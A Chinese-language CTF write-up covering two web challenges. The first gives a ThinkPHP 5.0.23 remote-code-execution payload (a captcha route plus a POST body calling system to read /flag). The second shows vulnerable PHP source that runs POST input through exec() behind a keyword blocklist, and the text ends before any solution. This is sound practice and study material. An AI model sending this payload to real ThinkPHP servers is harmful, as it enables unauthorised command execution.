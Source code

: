 ----

# old-hack

## 题目描述

是个黑页，目录扫了一遍没什么信息，不过注意到用了ThinkPHP5。

## 解题思路

ThinkPHP5漏洞多多，查看Debug界面，版本为5.0.23，又一个RCE漏洞，百度了Payload：

```
?s=captcha
POST：_method=__construct&filter[]=system&server[REQUEST_METHOD]=cat /flag
```

## 备注

1. 并没有了解过ThinkPHP的一系列漏洞，打算抽空学习一下。
2. 然后也没有学习过ThinkPHP的基本用法，Payload也用得云里雾里，下次必学。

----

# dungShell

## 题目描述

提示写到脸上了，有.swp文件。

## 解题思路

源码删减：

{% highlight php linenos %}
<?php
error_reporting(0);
echo "how can i give you source code? .swp?!"."</br>";
if (!isset($_POST['girl_friend'])) {
    die("where is P3rh4ps's girl friend ???");
} else {
    $girl = $_POST['girl_friend'];
    if (preg_match('/\>|\\\/', $girl)) {
        die('just girl');
    } else if (preg_match('/ls|phpinfo|cat|\%|\^|\~|base64|xxd|echo|\$/i', $girl)) {
        echo "<img src='img/p3_need_beautiful_gf.png'> <!-- He is p3 -->";
    } else {
        //duangShell~~~~
        exec($girl);
    }
}
{% endhighlight %}
